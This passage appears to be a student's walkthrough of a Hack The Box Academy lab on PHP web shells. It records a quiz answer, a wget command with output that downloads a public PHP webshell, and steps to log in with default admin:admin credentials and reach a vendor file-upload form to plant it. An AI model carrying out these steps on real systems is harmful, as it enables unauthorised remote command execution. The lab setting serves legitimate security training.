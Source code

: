 The answer is found in the text section of the module section.

**Answer:** `image/gif`

### Question 2:
![](./attachments/Pasted%20image%2020230201185516.png)

Download the webshell: 

```
┌──(kali㉿kali)-[~/HTB/ShellsAndPayloads/PHPwebShells]
└─$ wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
--2023-02-01 13:41:22--  https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7205 (7.0K) [text/plain]
Saving to: ‘webshell.php’

webshell.php               100%[======================================>]   7.04K  --.-KB/s    in 0.06s   

2023-02-01 13:41:23 (122 KB/s) - ‘webshell.php’ saved [7205/7205]
```

Launch Burp suite and it's build-in browser, navigate to the web-page and login in as  `admin:admin`. Then go to the Vendor section under Devices, here we can upload a file if we click on 'Add Vendor'.

![](./attachments/Pasted%20image%2020230201201414.png)
